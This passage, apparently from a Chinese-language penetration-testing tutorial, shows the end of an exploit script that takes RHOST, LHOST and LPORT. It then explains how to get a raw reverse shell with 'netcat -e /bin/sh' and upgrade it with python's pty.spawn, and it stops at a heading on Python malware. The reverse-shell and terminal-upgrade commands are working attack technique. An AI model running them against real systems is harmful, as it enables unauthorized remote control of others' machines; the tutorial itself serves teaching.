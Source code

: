 ```python
     builder(RHOST, LHOST, LPORT)
     sploiter(RHOST, LHOST, LPORT, session)

if __name__ == "__main__":
      main()
```


# <a name='15'>[0xB - 伪终端](#15)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)

最初级的终端是cmd.exe、/bin/sh通过socket的反射或者某个端口连接获得控制终端，它们处理STDIN/STDOUT/STDERR的方式不同于SSH等。

如果遇到复杂的命令，就可能导致终端崩溃，通过`netcat`获取一个shell:

```
# Start a netcat listener
$ netcat -lvp 443
listening on [any] 443 ...

# Use netcat to toss '/bin/sh' over a network socket
$ netcat 127.0.0.1 443 -e /bin/sh
```

虽然获得了一个shell，但复杂的操作如vi则无法运行，导致程序奔溃退出(注意: `-e`选项可能要开启)。

在此基础上，通过`pty`模块，可以快速获得一个更好一点的终端:

```python
$ python -c "import pty;pty.spawn('/bin/bash')"
CL-USER> $ uptime
00:20上午  up 7 days  1:31,  5 users,  load average: 5.02, 3.67, 2.97
CL-USER> $ date
四 12 31 00:20:54 CST 2015
CL-USER> $ vi
```

虽然获得终端还是没有所有的访问权限，但基本的操作都可以支持了。

# <a name='16'>[0xC - Python恶意软件](#16)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)
